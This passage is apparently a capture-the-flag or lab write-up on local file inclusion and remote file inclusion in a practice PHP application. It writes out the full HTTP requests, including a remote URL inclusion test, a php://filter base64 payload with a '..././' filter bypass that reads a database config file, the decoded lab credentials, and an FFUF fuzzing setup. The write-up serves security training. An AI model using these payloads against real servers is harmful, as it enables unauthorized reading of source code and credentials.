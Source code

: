 
Now we will try Remote File Inclusion 
```python
GET /labs/fi0x02.php?filename=https://www.google.com HTTP/1.1
```

and if we some file content we have remote file inclusion  which is also a great find as well We can now fetch files from remote resources
**PAY LOADS OF ALL THE THINGS**

`php://filter/convert.base64-encode/resource=index.php`
change resource= to db.php
It will return a warning now again recursive and bypass the filters
```python
GET /labs/fi0x02.php?filename=php://filter/convert.base64-encode/resource=..././db.php HTTP/1.1
```

The Output We Receive is this 

```html
               <div class="file-content">
                    PD9waHAKCiRzZXJ2ZXJuYW1lID0gImJiLWRiIjsKJHVzZXJuYW1lID0gImJiLWxhYnMtdXNlciI7CiRwYXNzd29yZCA9ICJiYi1sYWJzLXBhc3N3b3JkIjsKJGRibmFtZSA9ICJiYi1sYWJzIjsKCiRjb25uID0gbmV3IG15c3FsaSgkc2VydmVybmFtZSwgJHVzZXJuYW1lLCAkcGFzc3dvcmQsICRkYm5hbWUpOwoKaWYgKCRjb25uLT5jb25uZWN0X2Vycm9yKSB7CiAgICBkaWUoIkNvbm5lY3Rpb24gZmFpbGVkOiAiIC4gJGNvbm4tPmNvbm5lY3RfZXJyb3IpOwp9Cg==                </div>
```

its encode in base64 Send it to Decoder using burp and decode the base64 string 
```php
<?php

$servername = "bb-db";
$username = "bb-labs-user";
$password = "bb-labs-password";
$dbname = "bb-labs";

$conn = new mysqli($servername, $username, $password, $dbname);

if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}
  
```

## [Labs](http://localhost/index.php) / File Inclusion 0x03 [Challenge]

![](http://localhost/assets/rolling-scones.png)


Capture the request and try using FFUF instead of burp intruder 
and make file api-req.txt and put the request in it and make a FUZZ 
```
GET /labs/api/fetchRecipe.php?filename=FUZZ HTTP/1.1

```
